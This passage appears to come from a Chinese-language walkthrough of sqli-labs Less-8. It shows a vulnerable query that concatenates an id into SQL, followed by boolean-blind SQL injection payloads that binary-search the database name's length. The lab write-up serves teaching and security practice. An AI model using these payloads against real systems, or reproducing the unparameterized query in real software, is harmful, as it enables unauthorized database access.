 - id为字符型

  ```
  $sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
  ```

#### 3. 漏洞利用

- 二分法爆破数据库名长度

  ```
  /sqlilabs/Less-8/
  ?id=1' and length(database())>5 -- s
  ```

  ![](/assets/images/8-3.png)

  ```
  /sqlilabs/Less-8/
  ?id=1' and length(database())>10 -- s
  ```

  ![](/assets/images/8-4.png)

  ```
  /sqlilabs/Less-8/
  ?id=1' and length(database())=6 -- s
  ```

  ![](/assets/images/8-5.png)

